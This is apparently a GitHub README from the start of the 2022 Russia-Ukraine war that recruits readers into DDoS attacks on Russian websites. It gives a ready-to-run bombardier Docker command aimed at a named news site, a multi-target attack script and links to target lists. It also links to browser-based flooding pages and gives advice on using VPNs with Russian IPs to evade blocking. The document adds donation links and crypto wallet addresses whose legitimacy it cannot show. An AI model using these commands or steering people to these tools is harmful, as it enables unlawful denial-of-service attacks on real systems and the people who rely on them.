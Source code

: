 # Save Ukraine 🇺🇦

Russia has vilely attacked Ukraine on the morning of February 24, bombing peaceful cities with millions of people.

I've tried to compose a list of DDoS tools to help win this war on the informational front.

Our goals:
- Disrupt Russian propaganda websites and gov services
- Force people in Russia to protest against violent government policy
- Win this war

Last but not least [Русский корабль — иди нахуй!](https://www.youtube.com/watch?v=LDrFVdms8yk)

## VPN software

It's better to secure yourself with a VPN service. It makes you more anonymous, and you can switch to a different IP if yours get blocked.

I'll list here only ones that [have shown](https://macpaw.com/news/macpaw-amidst-aggression) support to Ukraine and provided temporary free access.

Ideally, choose a Russian IP, so you have fewer chances to be blocked.

### ClearVPN

1. Sign up on the website
2. Click on "Redeem a promocode"
3. Enter coupon code "SAVEUKRAINE"
4. Download the desktop app
5. Once installed, go back to the website and click "Auto-login"

### F-Secure FREEDOME VPN

1. Register using [this link](https://t.co/TekcNPxW9p) (copied from [here](https://twitter.com/fsecure/status/1497248407303462960))
2. Fill out your details and choose "Ukraine" as a country
3. Copy activation code
4. Download "F-Secure FREEDOME VPN" from [here](https://www.f-secure.com/en/home/download#freedome)
5. Once downloaded, go to "Subscriptions" -> "Activate subscription" and enter your license code

## List of targets

1. [endpoints.txt](./endpoints.txt)
2. https://incourse.trade/sites.php
3. https://ddosmonitor.herokuapp.com

## Checking availability

You can check the availability of target resources using these websites:

- https://check-host.net/check-ping
- https://ddosmonitor.herokuapp.com

## DDoS Tools

### Docker (single-website attack)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 9600s -l https://www.1tv.com/` (change URL to the one you want to attack)

> See [Bombardier docs](https://github.com/codesenberg/bombardier) for more options

### Docker (multiple websites)

1. Install [Docker Desktop](https://www.docker.com/products/docker-desktop)
2. Open Terminal
3. Download `bombardier.sh`
4. Run `sudo chmod +x bombardier.sh && ./bombardier.sh`

## Browser-based DDoS

This approach doesn't require any technical knowledge, simply open the website and follow instructions.

- https://attack-ui.vercel.app/attack/ddos/start ([instructions](https://destiny-jumbo-8c6.notion.site/Attack-UI-5aebc8eaedcc47448b6d79fc4243d141))
- https://nowarukraine.online/
- https://vug.pl/takeRussiaDown.html
- https://cyber-yozh.com/
- https://playforukraine.live/

## Support Ukraine with a donation

Please support Ukraine to win this war. Every cent matters.

These are verified and government-supported funding websites:

1. https://uahelp.monobank.ua/
2. https://bank.gov.ua/en/news/all/natsionalniy-bank-vidkriv-spetsrahunok-dlya-zboru-koshtiv-na-potrebi-armiyi
3. https://putler.io/

You can also support with crypto ([source](https://t.me/zedigital/1107)):
- BTC: `357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P` ([see balance](https://www.blockchain.com/btc/address/357a3So9CbsNfBBgFYACGvxxS6tMaDoa1P))
- ETH: `0x165CD37b4C644C2921454429E7F9358d18A45e14` ([see balance](https://etherscan.io/address/0x165CD37b4C644C2921454429E7F9358d18A45e14))
- USDT (TRC20): `TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy` ([see balance](https://usdt.tokenview.com/en/address/TEFccmfQ38cZS1DTZVhsxKVDckA8Y6VfCy))

## Join our IT army

1. [Official IT army Telegram channel](https://t.me/itarmyofukraine2022)
2. [Report vulnerabilities](http://t.me/stop_russian_war_bot) on Russian resources anonymously

## Any suggestions?

If you have something to add to the list, please submit a PR or write to comradefuckz@protonmail.com. 
